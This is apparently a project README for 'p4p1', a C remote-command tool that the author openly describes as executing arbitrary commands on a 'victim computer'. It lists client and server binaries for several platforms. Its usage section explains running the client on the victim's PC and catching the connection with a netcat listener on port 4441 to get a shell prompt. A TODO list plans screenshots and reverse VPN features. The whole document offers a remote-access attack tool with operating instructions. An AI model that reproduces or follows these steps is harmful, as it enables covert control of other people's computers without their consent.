 # p4p1
C open Source TCP server/client to execute arbitury commands on victim computer. They are all in developpement state.
For now the only stable versions are:

#client
##Windows
   	-p4p1-o_64.exe
   	-p4p1-o_32.exe
##Linux
   	inprogress
##Mac
    in progress

#server
##Windows
   p4p1-s_64.exe
   p4p1-s_32.exe

##Linux
   p4p1-s

##Mac
   p4p1-s

#How To use:
For the p4p1-o verison you need to execute them on the victim's PC,
and then open you're port 4441 and listen on it using any tcp server for exemple netcat.

For the p4p1 basic binaries, it is a command line program and you need to put it into server mode on the victim's PC
with the listening port, and connect to it with the client in the same app.

#Exemple:

##Victim:
Execute p4p1-o_Vx.exe

##Attacker:
nc -l 4441<br />
0<- dont forget this so that the prompt shows up.<br />

\<p4p1 /\><br />

********
**TODO**
********

-ncurses for gui of server
-better app using ncurse for p4p1-u_UserGuide when home folder located
-add screen shot to windows client
-better vpn for windows
-reverse vpn for windows and linux
